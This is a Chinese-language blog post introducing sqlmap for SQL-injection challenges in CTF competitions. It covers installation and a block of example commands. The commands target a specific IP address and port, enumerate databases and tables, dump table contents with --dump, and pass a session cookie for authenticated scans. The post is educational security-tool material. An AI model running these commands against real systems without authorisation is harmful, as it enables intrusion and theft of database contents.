 ```yaml
---
title: Sqlmap 介绍
date: 2024-01-12 08:12:19
keywords: sqlmap, ctf tools, ctf 工具, ctf 工具合集, ctf 工具介绍
description: Sqlmap 是检测服务端是否存在SQL注入漏洞的自动化工具。因为其强大的检测能力，常用在CTF比赛的SQL注入类型的题目中。它的主要功能是扫描、发现并利用指定URL中的SQL注入漏洞，支持的数据库类型非常多。
category: CTF
---
```



Sqlmap 是检测服务端是否存在SQL注入漏洞的自动化工具。因为其强大的检测能力，常用在CTF比赛的SQL注入类型的题目中。它的主要功能是扫描、发现并利用指定URL中的SQL注入漏洞，支持的数据库类型非常多。

## 安装

在 macOS 中，可以通过 `brew install sqlmap` 安装并通过命令行使用。

> 想知道 brew 怎么使用，可以参考 [Homebrew 介绍与上手指南](http://www.edulinks.cn/2020/06/23/20200623-homebrew-introduction/)

## 使用

sqlmap 常用命令及参数如下：

```sh
# 检测指定 URL 的注入点情况
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1
# 检测指定 URL 的注入点情况，并指定更多的参数，提高成功率
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 --level 2 --time-sec=10
# 指定注入点，查看当前数据库
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 --current-db
# 指定注入点，指定数据库名，查看数据库中所有表
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 -D cyber --tables
# 指定注入点，指定数据库名和表名，查看表中具体内容
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 -D cyber -T cyber --dump

# 利用 POST 参数进行探测, 使用 --data 方式指定参数
$ sqlmap -u http://223.112.5.156:59050/ --data="usr=admin&pass=admin"  --current-db

# 当网站需要认证时，需要带上 Cookie ，可以利用 --cookie 参数
$ sqlmap -u http://223.112.5.156:59050/index.php\?module\=index\&do\=member\&uid\=5  --level 2 --time-sec=10 --cookie "user=b73565ee4c6fd8009b9226e76d691d06; PHPSESSID=o5psg7sv53froq22u789dggbp0"
```

## 参考资料

1. [sqlmap](https://sqlmap.org/)
1. [sqlmap简介及简单应用实例](https://blog.csdn.net/m0_64378913/article/details/124439539)